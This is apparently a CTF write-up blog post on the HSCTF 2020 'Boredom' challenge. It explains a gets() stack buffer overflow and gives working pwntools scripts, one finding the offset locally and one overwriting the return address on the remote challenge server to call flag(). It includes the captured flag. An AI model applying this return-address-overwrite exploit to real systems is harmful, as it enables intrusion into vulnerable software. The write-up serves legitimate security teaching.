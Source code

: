 ```yaml
---
author: andrea
tags: ctf hsctf binary
---
```

[binary-exploitation-boredom.html](https://andregri.github.io/2020/06/06/hsctf2020-binary-exploitation-boredom.html)

_Boredom_ is the the first ctf of binary exploitation. It provides a source file **boredom.c** and a binary file **boredom**.

First, I analyze the source code to find some exploitable code. Indeed, the main call the unsafe function <pre><code class="cpp hljs inline"> gets </code></pre>:

<pre><code class="cpp hljs">
	int main() {
		char toDo[200];
		setup();

		printf("Give me something to do: ");
		gets(toDo);
		puts("Ehhhhh, maybe later.");
		return 0;
	}
</code></pre>

<code class="cpp hljs inline">gets</code> saves the input in the char array <code class="cpp hljs inline">toDo</code> and it can overwrite the return instruction pointer in the stack if the user writes more than 200 characters. The other function in **boredom.c** tells us where the flag is located:

<pre><code class="cpp hljs">
	void flag() {
		FILE &#42;f = fopen("flag.txt", "r");
		char buf[50];
		if (f == NULL) {
			puts("You're running this locally or I can't access the flag file for some reason.");
			puts("If this occurs on the remote, ping @PMP#5728 on discord server.");
			exit(1);
		}
		fgets(buf, 50, f);
		printf("Hey, that's a neat idea. Here's a flag for your trouble: %s\n", buf);
		puts("Now go away.");
		exit(42);
	}	
</code></pre>

We just need to find the address of function <code class="cpp hljs inline">flag</code> and overwrite it in the return instruction pointer in the stack. However, even though this is the main concept behind the buffer overflow exploit, there are a lot of details to make it real.

## Architecture characteristics

Before writing any exploit we have to understand in which architecture the **boredom** binary is running. The <code class="bash hljs inline">readelf -h boredom</code> command answers to all our questions:

<pre><code class="plaintext hljs">
	ELF Header:
	Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00
	Class:                             ELF64
	Data:                              2's complement, little endian
	Version:                           1 (current)
	OS/ABI:                            UNIX - System V
	ABI Version:                       0
	Type:                              EXEC (Executable file)
	Machine:                           Advanced Micro Devices X86-64
</code></pre>

Boom! It is 64bit architecture and little-endian (least significant byte are stored in the smallest address, e.g. higher in the stack).

Now we use our swiss army knife, aka pwntools, to get some other interesting features of this binary:

<pre><code class="python hljs">
	#!/usr/bin/python3
	from pwn import &#42;
	e = ELF('./boredom')
	print(e)
</code></pre>


the output is:

<pre><code class="plaintext hljs">
	Arch:     amd64-64-little
	RELRO:    Full RELRO
	Stack:    No canary found
	NX:       NX enabled
	PIE:      No PIE (0x400000)
</code></pre>

- _amd-64-little_ tells what we already know;
- _Full RELRO_: the Global Offset Table (GOT) is read-only, that is we can't change the function addresses.
- _No canary found_: the stack doesn't protect the return pointer if we try to overwrite it. This is the vulnerability we are exploiting.
- _NO PIE_: NO Position-Independent Executable, so the code can't run in any address but in those addresses specified by the binary file. In a _PIE_ file there are offsets instead of addresses.

## Exploit

Knowing all these characteristics of the the binary, we remain to guess the offset between the buffer <code class="cpp hljs inline">toDo</code> and the return instruction pointer in the stack. So when the program asks for the input we'll write 200 chars + offset + address of <code class="cpp hljs inline">flag()</code>.

<pre><code class="python hljs">
	#!/usr/bin/python3
	from pwn import &#42;
	e = ELF('./boredom')
	flag&#95;addr = p64(e.symbols['flag'])
	
	for i in range(201,220):
		print('i: ' + str(i))
		p = process('./boredom')
		payload = bytes("a"*i,'utf-8') + flag&#95;addr
		p.sendlineafter(': ', payload)
		res = p.recvall(timeout=1)
		if "flag" in res.decode():
			print(res.decode())
			break;
</code></pre>

where <code class="cpp hljs inline">flag&#95;addr = \xd5\x11\x40\x00\x00\x00\x00\x00</code> is 8 byte long.

When the binary returns _You're running this locally or I can't access the flag file for some reason._ we have found the right offset.

**In my case** the offset is 16 bytes:

<pre><code class="plaintext hljs">
	...
	i: 215
	[+] Starting local process './boredom': pid 203
	[+] Receiving all data: Done (21B)
	[*] Process './boredom' stopped with exit code -11 (SIGSEGV) (pid 203)
	i: 216
	[+] Starting local process './boredom': pid 206
	[+] Receiving all data: Done (162B)
	[*] Process './boredom' stopped with exit code 1 (pid 206)
	Ehhhhh, maybe later.
	You're running this locally or I can't access the flag file for some reason.
	If this occurs on the remote, ping @PMP#5728 on discord server.

	i: 217
	[+] Starting local process './boredom': pid 209
	[+] Receiving all data: Done (21B)
	[*] Process './boredom' stopped with exit code -11 (SIGSEGV) (pid 209)
	...
</code></pre>

We exploited the buffer overflow locally now it's time to make it working remotely:

<pre><code class="python hljs">
	#!/usr/bin/python3
	from pwn import *

	p = remote('pwn.hsctf.com', 5002)

	flag_addr = 0x00000000004011d5
	print( bytes('a'*(208),'utf-8')+p64(flag_addr))
	p.sendlineafter(': ', bytes('a'*(208),'utf-8')+p64(flag_addr))

	p.interactive()
</code></pre>

Unfortunately, the offset that we use to pwn the binary online is different from that we used locally. The offset is just 8 bytes instead of 16 bytes.

Eventually, the flag is:

<pre><code class="plaintext hljs">
	flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}
</code></pre>

## Resources

- [https://ctf.hsctf.com/](https://ctf.hsctf.com/)
- [Relocation Read-Only (RELRO)](https://ctf101.org/binary-exploitation/relocation-read-only/)
